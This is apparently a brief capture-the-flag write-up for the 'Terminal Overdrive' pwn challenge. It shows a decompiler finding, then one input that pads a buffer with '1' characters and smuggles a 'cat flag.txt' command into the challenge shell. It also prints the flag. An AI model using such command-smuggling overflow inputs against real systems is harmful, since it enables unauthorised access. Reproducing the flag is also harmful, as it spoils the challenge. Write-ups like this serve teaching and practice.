 # Terminal Overdrive
## Challenge
![challenge](https://github.com/TwentySick/CTF/blob/ed33aa6ff2d281d1734ab16db7edecf3013c5a57/2022/HackPack%20CTF/pwn/terminal_overdrive/images/challenge.png)
## Solution
Using ghidra to check file chal, easily to see that I can use 'pwd', 'ls', 'cat' from function 'evaluate\_statement'
![decompiler](https://github.com/TwentySick/CTF/blob/ed33aa6ff2d281d1734ab16db7edecf3013c5a57/2022/HackPack%20CTF/pwn/terminal_overdrive/images/decompiler.png)\
so I try to overflow by `11111111111111111111111111111111 cat flag.txt` and get the flag
(I just have got some lucky from this chall)
```bash
PACKShell v0.0.0.1.2.5l6.3
$ 111111111111111111111111111111111111111111111 cat flag.txt
flag.txt
flag{cH3ck_uR_bUFF3rz!1!}
```
Flag:
```
flag{cH3ck_uR_bUFF3rz!1!}
```
